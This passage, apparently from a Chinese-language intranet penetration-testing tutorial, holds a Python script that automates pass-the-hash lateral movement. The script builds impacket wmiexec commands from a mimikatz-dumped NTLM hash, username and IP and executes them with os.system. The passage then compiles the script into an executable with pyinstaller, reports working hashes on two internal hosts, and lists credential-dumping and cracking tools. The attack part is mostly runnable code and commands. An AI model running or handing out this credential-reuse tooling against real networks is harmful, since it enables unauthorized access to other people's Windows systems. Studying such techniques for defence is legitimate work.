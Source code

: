 ```Python
            exec = "wmiexec -hashes :"+mimahash+" god/"+user+"@"+ip+" whoami"
            exec1 = "wmiexec -hashes :"+mimahash+" ./"+user+"@"+ip+" whoami"
            print('--->' + exec + '<---')
            print('--->' + exec1 + '<---')
            os.system(exec)
            os.system(exec1)
            time.sleep(0.5)
```

编译成exe文件

```python
pyinstaller -F fuck_neiwang_002.py
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-18.png)

执行exe

192.168.3.29 hash可用

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-19.png)

192.168.3.32 hash可用

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-20.png)

后面继续信息收集，更新hash字典，再渗透。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-21.png)

# 涉及资源

[https://github.com/hashcat/hashcat](https://github.com/hashcat/hashcat)

[https://www.freebuf.com/sectool/164507.html](https://www.freebuf.com/sectool/164507.html)

[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

[https://gitee.com/RichChigga/impacket-examples-windows](https://gitee.com/RichChigga/impacket-examples-windows)

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools](https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools)

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

[https://github.com/k8gege/K8tools](https://github.com/k8gege/K8tools)

[https://www.cnblogs.com/-qing-/p/10661480.html](https://www.cnblogs.com/-qing-/p/10661480.html ) 